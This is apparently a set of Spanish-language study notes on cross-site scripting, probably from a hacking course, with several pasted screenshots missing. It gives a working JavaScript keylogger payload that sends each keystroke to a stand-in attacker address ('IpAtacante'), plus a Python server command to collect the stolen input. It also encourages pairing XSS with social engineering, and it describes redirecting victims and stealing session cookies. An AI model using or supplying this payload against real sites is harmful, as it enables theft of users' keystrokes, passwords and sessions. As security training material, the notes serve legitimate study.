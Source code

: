 La clave es juntar el XSS con la ingeniería social. También puedes crear un Keylogger de la siguiente forma:

![[Pasted image 20240920140933.png]]

```js
<script>
var k = "";

document.onkeypress = function(e) {
  e = e || window.event;
  k += e.key;
  var i = new Image();
  i.src = "http://IpAtacante/" + k;
};
</script>

```

Luego, simplemente abres un servidor al que te van a llegar todas las peticiones con el método GET de la siguiente forma:

```bash
python3 -m http.server 80
```

Así pues, si quieres que el keylogger se vea mucho mejor jugando con controladores de texto, puedes activarlo de la siguiente forma:

![[Pasted image 20240920141905.png]]

También podrías redireccionar personas a cualquier enlace que quieras de la siguiente forma:

![[Pasted image 20240920143149.png]]

Para ver la cookie de sesión de alguna página web, puedes darle a inspeccionar el código HTML de la página, luego irte a "Application", "Storage" y posteriormente ver la cookie de sesión. Si lo que quieres es robarla, deshabilita el servicio HTTPS de su casilla (Chrome). De la siguiente forma lo puedes ver:

![[Pasted image 20240920144208.png]]

O también, otro modo que puedes hacerlo es entrar al modo consola de la página web y escribir el siguiente comando en JavaScript:

```js
alert(document.cookie);
```
 y se te mostrara el token de sesión:
 
 ![[Pasted image 20240920144520.png]]

Este es un script que te puedes montar para luego publicarlo en la página, que roba las cookies de sesión y te las envía a tu servidor:

![[Pasted image 20240920144915.png]]
